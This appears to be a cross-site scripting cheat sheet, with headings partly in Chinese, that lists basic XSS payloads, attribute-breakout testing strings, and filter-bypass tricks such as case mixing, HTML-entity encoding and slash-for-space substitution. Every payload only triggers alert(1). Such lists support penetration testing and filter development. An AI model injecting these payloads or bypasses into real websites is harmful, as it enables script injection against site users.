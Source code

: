# XSS

## Basic Payload

- `<script>alert(1)</script>`
- `<svg/onload=alert(1)>`
- `<img src=# onerror=alert(1)>`
- `<a href="javascript:alert(1)">g</a>`
- `<input type="text" value="g" onmouseover="alert(1)" />`
- `<iframe src="javascript:alert(1)"></iframe>`
- ...

## Testing

- `<script>alert(1)</script>`
- `'"><script>alert(1)</script>`
- `<img/src=@ onerror=alert(1)/>`
- `'"><img/src=@ onerror=alert(1)/>`
- `' onmouseover=alert(1) x='`
- `" onmouseover=alert(1) x="`
- ``` `onmouseover=alert(1) x=` ```
- `javascript:alert(1)//`
- ....

## 繞過

- `//`(javascript註解)被過濾時，可以利用算數運算符代替
  - `<a href="javascript:alert(1)-abcde">xss</a>`
- HTML特性
  - 不分大小寫
    - `<ScRipT>`
    - `<img SrC=#>`
  - 屬性值
    - `src="#"`
    - `src='#'`
    - `src=#`
    - ```src=`#` ``` (IE)
- 編碼繞過
  - `<svg/onload=alert(1)>`
    - `<svg/onload=&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;>` (16進位) (分號可去掉)
- 繞空白
  - `<img/src='1'/onerror=alert(0)>`
## 其他

- 特殊標籤
  - 以下標籤中的腳本無法執行
  - `<title>`, `<textarea>`, `<iframe>`, `<plaintext>`, `<noscript>`...
